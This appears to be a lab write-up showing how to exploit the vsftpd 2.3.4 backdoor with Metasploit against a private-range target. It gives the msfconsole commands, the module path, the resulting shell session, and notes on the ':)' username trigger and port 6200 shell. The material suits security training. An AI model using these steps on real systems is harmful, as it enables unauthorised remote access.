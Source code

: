 # Exploiting vsftpd 2.3.4 Backdoor with Metasploit

## 🧠 Objective

Exploit the known backdoor in vsftpd 2.3.4 to gain shell access to the target machine using Metasploit.

---

## 🖥️ Target Info

- **Target IP**: 192.168.56.102
- **Service**: FTP (Port 21)
- **Vulnerable Version**: vsftpd 2.3.4
- **Tool Used**: `msfconsole`

---

## 🔍 Step 1: Launch Metasploit

```bash
msfconsole


## 🔍 Step 2: Search for the Exploit
search vsftpd
### 🔹 Result:
exploit/unix/ftp/vsftpd_234_backdoor


## 🔍 Step 3: Configure the Exploit
use exploit/unix/ftp/vsftpd_234_backdoor
set RHOSTS 192.168.56.102
set RPORT 21
run
### 🔹 Result:
[*] Command shell session opened (You now have remote command execution as the nobody user.)


📝 Notes
This is a real backdoor present in vsftpd 2.3.4.
The exploit opens a shell on port 6200 when a special smiley face ":)" is used as part of the username.
No authentication is needed — this is a severe vulnerability.


🔚 Conclusion
The vsftpd 2.3.4 service on the target machine is vulnerable to a known backdoor that allows remote code execution.
This exploit provides initial access to the system, which could be followed by privilege escalation.
